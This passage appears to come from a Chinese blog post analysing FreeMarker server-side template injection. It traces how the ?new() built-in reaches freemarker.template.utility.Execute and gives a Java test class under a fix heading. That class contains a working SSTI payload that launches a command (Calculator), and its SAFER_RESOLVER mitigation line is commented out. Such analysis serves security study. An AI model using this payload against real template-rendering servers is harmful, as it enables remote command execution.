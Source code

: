 调用`this.target.eval(env);`获取实例，然后前面会判断是否为`TemplateMethodModel`类型，然后调用exec方法。

```java
public Object exec(List arguments) throws TemplateModelException {
    ObjectWrapper ow = this.env.getObjectWrapper();
    BeansWrapper bw = ow instanceof BeansWrapper ? (BeansWrapper)ow : BeansWrapper.getDefaultInstance();
    return bw.newInstance(this.cl, arguments);
}
```

反射调用，这里会返回一个`freemarker.template.utility.Execute`的实例。

第二次调用`freemarker.core.Identifier#_eval`的时候,执行获取

![image-20220503000138787](https://img2022.cnblogs.com/blog/1993669/202205/1993669-20220503003429027-1448984101.png)

![image-20220503000218286](https://img2022.cnblogs.com/blog/1993669/202205/1993669-20220503003434231-131346647.png)

然后最后走到`freemarker.template.utility.Execute#exec`

![image-20220502223855377](https://img2022.cnblogs.com/blog/1993669/202205/1993669-20220503003439902-236460613.png)

### 漏洞修复

测试代码

简化了一下，代码如下：

```java
package freemarker;

import freemarker.cache.StringTemplateLoader;
import freemarker.core.TemplateClassResolver;
import freemarker.template.Configuration;
import freemarker.template.Template;

import java.io.IOException;
import java.io.OutputStreamWriter;
import java.io.StringWriter;
import java.util.HashMap;

public class freemarker_ssti {
    public static void main(String[] args) throws Exception {

        //设置模板
        HashMap<String, String> map = new HashMap<String, String>();
        String poc ="<#assign aaa=\"freemarker.template.utility.Execute\"?new()> ${ aaa(\"open -a Calculator.app\") }";
        System.out.println(poc);
        StringTemplateLoader stringLoader = new StringTemplateLoader();
        Configuration cfg = new Configuration();
        stringLoader.putTemplate("name",poc);
        cfg.setTemplateLoader(stringLoader);
        //cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
        //处理解析模板
        Template Template_name = cfg.getTemplate("name");
        StringWriter stringWriter = new StringWriter();

        Template_name.process(Template_name,stringWriter);


    }
}
```

